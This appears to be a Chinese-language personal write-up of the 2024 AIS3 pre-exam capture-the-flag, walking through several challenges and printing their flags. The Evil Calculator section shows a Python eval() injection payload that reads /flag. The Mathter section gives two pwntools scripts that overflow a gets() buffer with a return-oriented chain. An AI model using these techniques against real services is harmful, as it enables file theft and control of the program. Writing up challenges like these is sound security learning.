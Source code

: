 ```yaml
---
description: pre-exam大燒雞
title: 2024 AIS3 pre-exam
pubDate: 2024/5/27 16:28:03
tags:
  -  writeup
categories:
- Daily
---
```


## [Welcome]

flag就放在題目裡，我沒有截下來

## [Quantum Nim Heist]

會發現是一個叫你拿石頭的遊戲

```
yih_0118@Macbook Downloads % nc chals1.ais3.org 40004
+-------------------- welcome --------------------+
| omg hi!                                         |
|                                                 |
| welcome to microchess, the minimal online chess |
| platform.                                       |
| i am a super powerful chess AI!                 |
| can you win against me and get the flag?        |
+---+--------------- main menu -------------------+
| 0 | read the rules of the game                  |
| 1 | start a new game against me                 |
| 2 | load a saved game                           |
| 3 | leave                                       |
+---+---------------------------------------------+
```

有一個技巧，當拿到兩個樁各剩一顆，然後跟他套，誒我要拿石頭但是輸入值一直是0

```
+---+-------------- stones info ------------------+
| 0 | o                                           |
| 1 | o                                           |
+---+--------------- game menu -------------------+
| 0 | make a move                                 |
| 1 | save the current game and leave             |
| 2 | resign the game                             |
+---+---------------------------------------------+
it's your turn to move! what do you choose? 0
which pile do you choose? 0
how many stones do you remove? 0
```

然後再試一下，我每次輸入001就過了

```
it's your turn to move! what do you choose? 0
which pile do you choose? 0
how many stones do you remove? 1
+---------------- congratulations ----------------+
| you are a true grandmaster of chess! here is    |
| the flag for you:                               |
| AIS3{Ar3_y0u_a_N1m_ma57er_0r_a_Crypt0_ma57er?}  |
+-------------------------------------------------+
```

## [Three Dimensional Secret]

他會給你一個網路封包，丟到wireshark去看看
stream出來後會發現好像是G-code然後可以丟到個網站
![image](https://hackmd.io/_uploads/BJ4tRfEVR.png)

[網頁連結](https://ncviewer.com/)
![image](https://hackmd.io/_uploads/H1M6RzE4R.png)
就出來了

## [Evil Calculator]

發現是一個神奇的計算機
![image](https://hackmd.io/_uploads/BJBf8zEVA.png)
假如我按下`1+1`再按下等於，我用burp suite去攔截會發現是一個json格式的東東
![image](https://hackmd.io/_uploads/Hkq2wfNVC.png)
去看一下`app.js`裡面有什麼洞可以鑽

```python
@app.route('/calculate', methods=['POST'])
def calculate():
    data = request.json
    expression = data['expression'].replace(" ","").replace("_","")
    try:
        result = eval(expression)
    except Exception as e:
        result = str(e)
    return jsonify(result=str(result))
```

發現用eval()可以去鑽，直接出入指令去求出flag
可以使用burp suite的repeater去看回覆
![image](https://hackmd.io/_uploads/BJF1cfVVR.png)
那我們把expression改成`"open('/flag', 'r').read()"`
然後就出來了
![image](https://hackmd.io/_uploads/SJdR5M44C.png)

## [Mathter]

![image](https://hackmd.io/_uploads/SJcMx0bEA.png)
進去goodbye看一下
![image](https://hackmd.io/_uploads/HJ2Bl0b4A.png)
ㄟ竟然有gets，可以overflow
發現是v1[4] 所以要打12進去
![image](https://hackmd.io/_uploads/SkXS-0ZNC.png)
有兩個神奇函數，繞進去好了?
![image](https://hackmd.io/_uploads/HJKQkGNN0.png)
觀察一下win1
發現-559038737會是0xDEADBEEF
![image](https://hackmd.io/_uploads/BJ8rGzEEA.png)
觀察一下win2
發現-889275714會是0xcafebabe

```python
from pwn import *
r = remote("chals1.ais3.org" ,50001)
r.recvuntil(b':')
r.sendline(b'q')
r.recvlines(2)
padding = b'a' * 12
elf = ELF('./mathter')
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
arg = 0xdeadbeef
win1 = elf.symbols['win1']
payload = padding
payload += p64(pop_rdi)
payload += p64(arg)
payload += p64(win1)
r.sendline(payload)
r.interactive()
```

![image](https://hackmd.io/_uploads/SyztgCWEC.png)
得出上半部

```python
from pwn import *
r = remote("chals1.ais3.org", 50001)
r.recvuntil(b':')
r.sendline(b'q')
r.recvlines(2)
padding = b'a' * 12
elf = ELF('./mathter')
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
arg = 0xcafebabe
win2 = elf.symbols['win2']
payload = padding
payload += p64(pop_rdi)
payload += p64(arg)
payload += p64(win2)
r.sendline(payload)
r.interactive()
```

得出下半部

![image](https://hackmd.io/_uploads/SJGxZAZVC.png)
相同部分就刪掉吧

FLAG:`AIS3{0mg_k4zm4_mu57_b3_k1dd1ng_m3_2e89c9}`

## 成績爛掉但還有正取上

![image](https://hackmd.io/_uploads/rkGQ1lk_0.png)
![image](https://hackmd.io/_uploads/By5nyx1_R.png)
